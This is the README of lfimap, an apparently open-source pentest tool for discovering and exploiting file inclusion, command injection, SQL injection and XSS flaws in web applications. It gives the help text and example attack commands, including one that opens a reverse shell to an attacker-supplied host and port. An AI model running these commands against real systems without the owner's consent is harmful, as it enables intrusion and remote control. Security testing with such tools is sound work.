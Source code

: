 # lfimap
## Local file inclusion discovery and exploitation tool

### Main features
- data:// for remote command execution
- expect:// for remote command execution
- input:// for remote command execution
- filter:// for arbitrary file inclusion
- file:// for arbitrary file inclusion
- Remote file inclusion for code execution
- Path truncation for arbitrary file inclusion
- Command injection for remote command execution
- Generic time based blind sql injection testing
- Reflected XSS testing
- Option to test POST arguments
- Option to specify custom http headers
- Option to specify cookies for authenticated requests
- Option to specify a web proxy to send requests through
- Option to specify delay in between requests
- Option for automated reverse shell access upon successful remote code execution

### Documentation
- [Installation](https://github.com/hansmach1ne/lfimap/wiki/Installation)
- [Usage](https://github.com/hansmach1ne/lfimap/wiki)

###
What features are working currently
- Scan parameters for path traversal (different bypasses, nullbyte, path normalization, string stripping injection, single and double URL encoding, etc..)
- Scan parameters for local file inclusion using wrappers (filter, input, data, expect, file)
- Scan parameters for remote file inclusion (remote internet facing website, if LHOST address is provided test by hosting a file on local web server)
- Scan parameters for results-based and blind command injection (different injection sequences, $IFS, ${IFS%??})
- Scan parameters for basic blind sql injection (currently supports only MySQL)
- Scan parameters for unsanitized reflection (Basic reflected XSS test using img onerror JavaScript event handler)
- Inline check for arbitrary open redirection
- Supports scans for GET and POST request parameters
- Supports scans through a proxy
- Supports scans with custom session cookies, user-agent, referer and/or HTTP headers
- Supports scans and exploitation with delay in between requests
- Supports scans and exploitation for windows and linux web servers
- Supports automated reverse shell upon RCE detection (Current methods that support this are: data, input and expect wrappers, remote file inclusion, command injection, http access log poisoning)

### -h, --help
```                  
usage: lfimap.py [-U [url]] [-F [urlfile]] [-C <cookie>] [-D <request>] [-H <header>] [-P <proxy>] ć
[--useragent <agent>] [--referer <referer>] [--param <name>] [--delay <seconds>] [--no-stop] [-f] [-i] 
[-d] [-e] [-t] [-r] [-c] [--file] [--xss] [--sqli] [--info] [-a] [-x] [--lhost <lhost>] [--lport <lport>] 
[-wT <path>] [-wC <path>] [-v] [-h]

lfimap, Local File Inclusion discovery and exploitation tool

MANDATORY:
  -U [url]             		 Specify url, Ex: "http://example.org/vuln.php?param=PWN" 
  -F [urlfile]         		 Specify url wordlist (every line should have --param|'PWN'.)

GENERAL OPTIONS:
  -C <cookie>          		 Specify session cookie, Ex: "PHPSESSID=1943785348b45"
  -D <request>         		 Do HTTP POST value test. Ex: "param=PWN"
  -H <header>          		 Specify additional HTTP header(s). Ex: "X-Forwarded-For:127.0.0.1"
  -P <proxy>           		 Specify Proxy IP address. Ex: "http://127.0.0.1:8080"
  --useragent <agent>  		 Specify HTTP user agent
  --referer <referer>  		 Specify HTTP referer
  --param <name>       		 Specify different test parameter value
  --delay <seconds>    		 Specify delay in seconds in-between requests
  --no-stop            		 Don't stop using same method upon findings

ATTACK TECHNIQUE:
  -f, --filter         		 Attack using filter:// wrapper
  -i, --input          		 Attack using input:// wrapper
  -d, --data           		 Attack using data:// wrapper
  -e, --expect         		 Attack using expect:// wrapper
  -t, --trunc          		 Attack using path truncation with wordlist (default "short.txt")
  -r, --rfi            		 Attack using remote file inclusion
  -c, --cmd            		 Attack using command injection
  --file               		 Attack using file:// wrapper
  --xss                		 Test for reflected XSS
  --sqli               		 Test for SQL injection
  --info               		 Test for basic information disclosures
  -a, --all            		 Use all available methods to attack

PAYLOAD OPTIONS:
  -x, --exploit        		 Exploit to reverse shell if possible (Setup reverse listener first)
  --lhost <lhost>      		 Specify local ip address for reverse connection
  --lport <lport>      		 Specify local port number for reverse connection

WORDLIST OPTIONS:
  -wT <path>           		 Specify wordlist for truncation test
  -wC <path>           		 Specify wordlist for command injection test

OTHER:
  -v, --verbose        		 Print more detailed output when performing attacks
  -h, --help           		 Print this help message

```
### Examples 

#### 1) All attacks with '-a' (filter, input, data, expect and file wrappers, remote file inclusion, command injection, XSS, error disclosure).
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a`  

![Lfimap-1](https://user-images.githubusercontent.com/57464251/186299395-c6a91666-0e95-484e-8537-6f248d257f5b.png)


#### 2) Reverse shell command execution attack with '-x'
`python3 lfimap.py -U "http://IP/vuln.php?param=PWN" -C "PHPSESSID=XXXXXXXX" -a --lhost IP --lport PORT -x`  

![Lfimap-2](https://user-images.githubusercontent.com/57464251/186299661-7d6b480b-953f-4a7e-a806-5f39435f07fd.png)


#### 3) Post argument testing with '-D'

`python3 lfimap.py -U "http://IP/index.php" -D "page=PWN" -a`

![Lfimap-3](https://user-images.githubusercontent.com/57464251/186302047-0a2e9ab9-e4f0-43bb-b245-0235b6950ea0.png)


If you notice any issues with the software, please open up an issue. I will gladly take a look at it and try to resolve it. <br>
Pull requests are welcome.

[!] Disclaimer: Lfimap usage for attacking web applications without consent of the application owner is illegal. Developers assume no liability and are 
not responsible for any misuse and damage caused by using this program.
